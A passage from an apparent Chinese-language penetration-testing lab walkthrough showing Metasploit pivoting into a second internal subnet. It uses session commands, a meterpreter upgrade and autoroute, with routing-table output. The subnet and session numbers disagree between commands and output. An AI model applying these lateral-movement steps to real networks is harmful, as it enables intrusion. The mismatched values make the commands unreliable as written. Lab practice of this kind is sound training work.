 攻击成功

#### 攻击靶标3-第二层内网的 `victim-3`

1.发现终点靶标
```bash
# 通过网卡、路由、ARP 发现新子网 192.169.85.0/24
sessions -c "ifconfig" -i 3,4,5
# 找到连接内网的靶机
```

![](../img/Dracuspicy/73.png)

```bash
# 将会话 5 升级为 meterpreter shell
sessions -u 5
# 新的 meterpreter shell 会话编号此处为 6
sessions -i 6
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.178.85.0/24
run autoroute -p
# Active Routing Table
# ====================
# 
#    Subnet             Netmask            Gateway
#    ------             -------            -------
#    192.169.85.0       255.255.255.0      Session 7
```